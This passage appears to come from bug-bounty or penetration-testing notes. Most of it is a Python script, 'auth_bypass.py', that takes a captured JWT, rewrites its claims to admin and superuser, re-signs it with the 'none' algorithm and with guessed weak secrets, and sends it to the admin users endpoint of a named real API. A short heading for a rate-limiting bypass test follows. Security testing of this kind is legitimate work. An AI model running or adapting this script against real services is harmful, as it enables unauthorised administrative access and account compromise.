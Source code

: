 ```python
# Test Script: auth_bypass.py
import requests
import jwt

def test_jwt_manipulation():
    # After login, capture your JWT token from browser storage or cookies
    token = "YOUR_JWT_TOKEN_HERE"
    
    try:
        # Decode without verification
        decoded = jwt.decode(token, options={"verify_signature": False})
        print(f"Original token claims: {decoded}")
        
        # Test privilege escalation
        escalated_claims = decoded.copy()
        escalated_claims['role'] = 'admin'
        escalated_claims['is_superuser'] = True
        escalated_claims['permissions'] = ['*']
        
        # Try different signing algorithms
        algorithms = ['none', 'HS256', 'HS512']
        
        for alg in algorithms:
            try:
                if alg == 'none':
                    manipulated_token = jwt.encode(escalated_claims, '', algorithm=alg)
                else:
                    # Try common secrets
                    secrets = ['secret', 'key', 'aixblock', '']
                    for secret in secrets:
                        manipulated_token = jwt.encode(escalated_claims, secret, algorithm=alg)
                        
                        # Test the manipulated token
                        headers = {'Authorization': f'Bearer {manipulated_token}'}
                        response = requests.get('https://api.aixblock.io/admin/users', headers=headers)
                        
                        if response.status_code == 200:
                            print(f"PRIVILEGE ESCALATION FOUND with {alg} and secret '{secret}'")
                            
            except Exception as e:
                continue
                
    except Exception as e:
        print(f"JWT decode error: {e}")

test_jwt_manipulation()
```

### Test 4: Rate Limiting Bypass
**Target**: API endpoints
**Previous Success**: Token reward for rate limit bypass
